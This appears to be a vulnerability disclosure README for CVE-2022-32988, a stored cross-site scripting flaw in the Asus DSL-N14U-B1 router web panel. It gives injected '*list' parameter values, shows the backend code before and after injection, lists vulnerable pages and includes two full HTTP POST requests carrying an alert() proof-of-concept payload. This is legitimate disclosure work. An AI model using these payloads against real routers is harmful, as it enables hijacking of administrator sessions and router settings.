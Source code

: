 # CVE-2022-32988
## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with the same firmware version.

```
    DSL-N14U_B1 V.1.1.2.3_805
    
```


## Overview

In router **Asus DSL-N14U-B1 1.1.2.3_805** was discovered to contain a stored cross-site scripting (XSS) vulnerability via the "`*list`" parameters (e.g. `filter_lwlist`, `keyword_rulelist`, etc) in every "`.asp`" page containing a list of stored strings (e.g. `Advanced_Firewall_Content.asp`, `Advanced_KeywordFilter_Content.asp`). 

## POC

Via a `*list` parameter (e.g. `filter_lwlist`, `keyword_rulelist`, etc) in every "`.asp`" page containing a list of stored strings (e.g. `Advanced_Firewall_Content.asp`, `Advanced_KeywordFilter_Content.asp`) the functions `tcWebApi_get` and `TCWebApi_get` are executed to generate dynamic JavaScript code.

E.g. `filter_lwlist` in `/cgi-bin/Advanced_Firewall_Content.asp`:  
Passing in the `POST` body:
```
filter_lwlist=%3C192.168.2.2%3E443%3E192.168.2.2%3E443%3ETCP'%2balert('XSS')%2b'
```

The backend code:
```asp
var wireless = []; // [[MAC, associated, authorized], ...]
var filter_lwlist_array = '<% If tcWebApi_get("IpMacFilter_Entry","LtoW_List","h") <> "" then  tcWebApi_get("IpMacFilter_Entry","LtoW_List","s") end if %>';
function initial(){
        show_menu();
        showfilter_lwlist();    
        init_setting();
        check_Timefield_checkbox();
        corrected_timezone(DAYLIGHT_orig, TZ_orig);
}
```

becomes:
```javascript
var wireless = []; // [[MAC, associated, authorized], ...]
var filter_lwlist_array = '<192.168.2.2>443>192.168.2.2>443>TCP'+alert('XSS')+'';
function initial(){
	show_menu();
	showfilter_lwlist();	
	init_setting();
	check_Timefield_checkbox();
	corrected_timezone(DAYLIGHT_orig, TZ_orig);
}
```

Which is executed in the browser:  
![](./xss-example.png)


In this router webpanel there are many list of strings submitted by user (e.g. to specify a list of blacklisted IP, a list of ip:port to forward, etc) and in every page tested has been possible to perform XSS. A list of vulnerable pages can be retrieved via:
```bash
grep -rPi 'var.*TCWebApi_get' boaroot/  | awk -F':' '{print $1}' | sort -u
boaroot/cgi-bin/Advanced_ACL_Content.asp
boaroot/cgi-bin/Advanced_ADSL_Content.asp
boaroot/cgi-bin/Advanced_AiDisk_ftp.asp
boaroot/cgi-bin/Advanced_AiDisk_samba.asp
boaroot/cgi-bin/Advanced_ASUSDDNS_Content.asp
boaroot/cgi-bin/Advanced_DSL_Content.asp
boaroot/cgi-bin/Advanced_Firewall_Content.asp
boaroot/cgi-bin/Advanced_FirmwareUpgrade_Content.asp
boaroot/cgi-bin/Advanced_GWStaticRoute_Content.asp
boaroot/cgi-bin/Advanced_IPTV_Content.asp
boaroot/cgi-bin/Advanced_IPv6_Content.asp
boaroot/cgi-bin/Advanced_KeywordFilter_Content.asp
boaroot/cgi-bin/Advanced_LAN_Content.asp
boaroot/cgi-bin/Advanced_Modem_Content.asp
boaroot/cgi-bin/Advanced_PortTrigger_Content.asp
boaroot/cgi-bin/Advanced_QOSUserPrio_Content.asp
boaroot/cgi-bin/Advanced_QOSUserRules_Content.asp
boaroot/cgi-bin/Advanced_SettingBackup_Content.asp
boaroot/cgi-bin/Advanced_System_Content.asp
boaroot/cgi-bin/Advanced_URLFilter_Content.asp
boaroot/cgi-bin/Advanced_VirtualServer_Content.asp
boaroot/cgi-bin/Advanced_VPN_PPTP.asp
boaroot/cgi-bin/Advanced_WAdvanced_Content.asp
boaroot/cgi-bin/Advanced_WANPort_Content.asp
boaroot/cgi-bin/Advanced_Wireless_Content.asp
boaroot/cgi-bin/Advanced_WMode_Content.asp
boaroot/cgi-bin/Advanced_WWPS_Content.asp
boaroot/cgi-bin/aidisk/Aidisk-1.asp
boaroot/cgi-bin/aidisk/Aidisk-2.asp
boaroot/cgi-bin/aidisk/Aidisk-3.asp
boaroot/cgi-bin/aidisk/Aidisk-4.asp
boaroot/cgi-bin/aidisk.asp
boaroot/cgi-bin/APP_Installation.asp
boaroot/cgi-bin/Bandwidth_Limiter.asp
boaroot/cgi-bin/blocking.asp
boaroot/cgi-bin/cloud_main.asp
boaroot/cgi-bin/cloud_router_sync.asp
boaroot/cgi-bin/cloud_settings.asp
boaroot/cgi-bin/cloud_sync.asp
boaroot/cgi-bin/device-map/clients.asp
boaroot/cgi-bin/device-map/disk.asp
boaroot/cgi-bin/device-map/DSL_dashboard.asp
boaroot/cgi-bin/device-map/internet.asp
boaroot/cgi-bin/error_page.asp
boaroot/cgi-bin/Guest_network.asp
boaroot/cgi-bin/index2.asp
boaroot/cgi-bin/index.asp
boaroot/cgi-bin/Main_AccessLog_Content.asp
boaroot/cgi-bin/Main_AdslStatus_Content.asp
boaroot/cgi-bin/Main_Spectrum_Content.asp
boaroot/cgi-bin/Main_WebHistory_Content.asp
boaroot/cgi-bin/ParentalControl.asp
boaroot/cgi-bin/qis/QIS_admin_pass.asp
boaroot/cgi-bin/qis/QIS_annex_setting.asp
boaroot/cgi-bin/qis/QIS_bridge_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_detect.asp
boaroot/cgi-bin/qis/QIS_finish.asp
boaroot/cgi-bin/qis/QIS_ipoa_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_manual_setting.asp
boaroot/cgi-bin/qis/QIS_mer_cfg.asp
boaroot/cgi-bin/qis/QIS_mer_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_ppp_cfg.asp
boaroot/cgi-bin/qis/QIS_ppp_cfg_tmp.asp
boaroot/cgi-bin/qis/QIS_PTM_manual_setting.asp
boaroot/cgi-bin/qis/QIS_wireless.asp
boaroot/cgi-bin/QIS_wizard.asp
boaroot/cgi-bin/QoS_EZQoS.asp
boaroot/cgi-bin/query_wan_status2.asp
boaroot/cgi-bin/query_wan_status.asp
boaroot/cgi-bin/start_apply.asp
boaroot/html/client_function.js
boaroot/html/general.js
boaroot/html/help.js
boaroot/html/state.js
boaroot/html/validator.js
```

Example payloads:
```
POST /cgi-bin/Advanced_Firewall_Content.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 880
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/Advanced_Firewall_Content.asp
Cookie: asus_token=XXXXXXXXXXXXXXXXXXXX; nwmapRefreshTime=1654435165517
Upgrade-Insecure-Requests: 1

productid=DSL-N14U&current_page=Advanced_Firewall_Content.asp&next_page=&group_id=filter_lwlist&modified=0&action_mode=apply&action_wait=5&action_script=restart_firewall&first_time=&preferred_lang=EN&firmver=1.1.2.3_805-gadd8a2b&filter_lw_date_x=1111111&filter_lw_time_x=00002359&filter_lw_num_x_0=&filter_lwlist=%3C192.168.2.2%3E443%3E192.168.2.2%3E443%3ETCP'%2balert('XSS')%2b'&editFlag=1&fw_lw_enable_x=1&filter_lw_default_x=DROP&LWKnownApps=User+Defined&filter_lw_date_x_Sun=on&filter_lw_date_x_Mon=on&filter_lw_date_x_Tue=on&filter_lw_date_x_Wed=on&filter_lw_date_x_Thu=on&filter_lw_date_x_Fri=on&filter_lw_date_x_Sat=on&filter_lw_time_x_starthour=00&filter_lw_time_x_startmin=00&filter_lw_time_x_endhour=23&filter_lw_time_x_endmin=59&filter_lw_icmp_x=&filter_lw_srcip_x_0=&filter_lw_srcport_x_0=&filter_lw_dstip_x_0=&filter_lw_dstport_x_0=&filter_lw_proto_x_0=TCP&FAQ_input=
```
```
POST /cgi-bin/Advanced_KeywordFilter_Content.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 449
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/cgi-bin/Advanced_KeywordFilter_Content.asp
Cookie: asus_token=XXXXXXXXXXXXXXXXXXXX; nwmapRefreshTime=1654435165517; bw_rtab=ATM
Upgrade-Insecure-Requests: 1

current_page=Advanced_KeywordFilter_Content.asp&next_page=Advanced_KeywordFilter_Content.asp&next_host=192.168.2.1&modified=0&action_mode=apply&action_wait=5&action_script=restart_firewall&first_time=&preferred_lang=EN&firmver=1.1.2.3_805-gadd8a2b&keyword_num_x_0=&keyword_rulelist=%3CTEST%27%2Balert%28%27XSS%27%29%2B%27&keyword_enable_x_orig=0&editFlag=1&keyword_enable_x=0&keyword_enable_x_0=0&keyword_enable_x_1=0&keyword_keyword_x_0=&FAQ_input=
```
